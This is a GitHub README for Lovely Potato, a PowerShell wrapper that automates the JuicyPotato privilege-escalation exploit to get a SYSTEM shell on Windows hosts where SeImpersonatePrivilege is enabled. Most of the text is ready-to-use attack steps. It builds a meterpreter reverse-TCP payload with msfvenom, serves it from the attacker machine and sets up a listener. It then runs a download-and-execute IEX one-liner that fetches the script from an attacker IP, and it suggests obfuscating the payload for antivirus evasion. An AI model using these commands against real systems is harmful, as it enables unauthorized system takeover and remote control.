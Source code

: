 # Lovely Potato (automating juicy potato)
*Powershell wrapper of [Decoder's JuicyPotato][1] for easy exploitation. **This entirely depends on the [original Juicy Potato binary][2] and utilizes [his test_clsid.bat][3].***
TL;DR: SeImpersonatePrivilege Is Enabled = JuicyPotato Exploitable

## Quick Guide
First clone this repo to your attacker machine which already has all of required dependencies:
```
root@attacker:~# git clone https://github.com/TsukiCTF/Lovely-Potato.git
root@attacker:~# cd Lovely-Potato
```
Then modify the two following variables in 'Invoke-LovelyPotato.ps1' as below (attacker machine IP, writable path on the victim machine):
```
$RemoteDir = "http://[AttackerIP]
$LocalPath = "[WritablePathOnVictimMachine]"
```
Now create a meterpreter binary on the attacker machine or use any other executable reverse shell:
```
root@attacker:~/Lovely-Potato# msfvenom -p windows/meterpreter/reverse_tcp LHOST=[AttackerIP] LPORT=[AttackerPort] -f exe -o meterpreter.exe
```
Start a web server in this repo to serve your meterpreter.exe and other dependencies:
```
root@attacker:~/Lovely-Potato# python3 -m http.server 80
```
On a new terminal, launch metasploit console (or any listener which handles whatever you are serving as a reverse shell):
```
root@attacker:~# msfdb run
msf5 > # I'm going to omit setting up the multi handler as it is something you should already know
```
Finally enter below command on victim's powershell console and you **MUST WAIT 10 minutes** for reverse shell running as user NT AUTHORITY\SYSTEM!
```
PS > IEX(New-Object Net.WebClient).DownloadString('http://[AttackerIP]/Invoke-LovelyPotato.ps1')
```

## Why Use Lovely Potato?
*For simplicity.*
Manually uploading various files to target host can be easily avoided with automation.
Also, listing entire CLSIDs on the system and identifying privilege for each of them takes very long time if done by sending commands.
You can easily switch binaries in the repo any time without having to recode Invoke-LovelyPotato.ps1.
Ex) Recompiling JuicyPotato for customization / Obfuscating your meterpreter for AV evasion


[1]: https://github.com/ohpe/juicy-potato
[2]: https://ci.appveyor.com/project/ohpe/juicy-potato/build/artifacts
[3]: https://github.com/ohpe/juicy-potato/blob/master/Test/test_clsid.bat
